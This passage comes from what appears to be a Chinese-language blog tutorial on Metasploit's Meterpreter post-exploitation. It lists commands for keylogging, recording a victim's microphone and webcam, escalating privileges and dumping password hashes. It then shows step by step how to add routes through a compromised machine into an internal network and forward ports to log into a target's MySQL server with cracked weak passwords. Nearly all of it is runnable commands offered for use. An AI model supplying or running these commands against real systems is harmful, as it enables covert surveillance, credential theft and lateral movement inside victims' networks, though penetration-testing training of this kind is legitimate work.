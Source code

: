 sysinfo      获取电脑信息
{{< /highlight >}}
用户操作和其他功能讲解:
{{< highlight shell >}}
enumdesktops     用户登录数
keyscan_dump　　 键盘记录－下载
keyscan_start　　键盘记录　－　开始
keyscan_stop 　　键盘记录　－　停止
Uictl　　　　　　获取键盘鼠标控制权
record_mic　　　 音频录制
webcam_chat　　　查看摄像头接口
webcam_list　　　查看摄像头列表
webcam_stream　　摄像头视频获取
Getsystem　　　　获取高权限
Hashdump　　　   下载ＨＡＳＨ
{{< /highlight >}}

## meterpreter添加路由

大多时候我们获取到的meterpreter shell处于内网，而我们需要代理到目标内网环境中，扫描其内网服务器。这时可以使用route功能，添加一条通向目标服务器内网的路由。

查看shell网络环境：
{{< highlight shell >}}
meterpreter>run get_local_subnets
{{< /highlight >}}
添加一条通向目标服务器内网的路由
{{< highlight shell >}}
meterpreter>run autoroute -s 100.0.0.0/8 (根据目标内网网络而定)
{{< /highlight >}}
查看路由设置：
{{< highlight shell >}}
meterpreter>run autoroute –p
{{< /highlight >}}
一般来说，在meterpreter中设置路由便可以达到通往其内网的目的。然而有些时候还是会失败，这时我们可以background返回msf>，查看下外面的路由情况。
{{< highlight shell >}}
route print
{{< /highlight >}}
如果发现没有路由信息，说明meterpreter shell设置的路由并没有生效，我们可以在msf中添加路由。
{{< highlight shell >}}
msf>route add 10.0.0.0 255.0.0.0 1
{{< /highlight >}}
说明：1表示session 1，攻击机如果要去访问10.0.0.0/8网段的资源，其下一跳是session1，至于什么是下一条这里不多说了，反正就是目前攻击机可以访问内网资源了。
### meterpreter端口转发

假设目前我们扫描到了10网段的某个ip存在mysql弱口令，账号密码都有了，那么我们可以在肉鸡服务器上登陆目标服务器mysql。当然，如果我想在攻击机上去登陆mysql，可以使用端口转发。（某些情况下，内网的机器也不能互相ssh，需要登陆堡垒机）

在meterpreter shell中输入：
{{< highlight shell >}}
meterpreter > portfwd add -l 55555 -r 10.0.0.1 -p 3306
{{< /highlight >}}
表示将10.0.0.1服务器上的3306端口转发到本地的55555端口，然后我们可以在本地运行mysql –h 127.0.0.1 –u root –P 55555 –p 去登陆mysql。其他端口如ssh、ftp等都类似，这个过程跟msf代理很像。
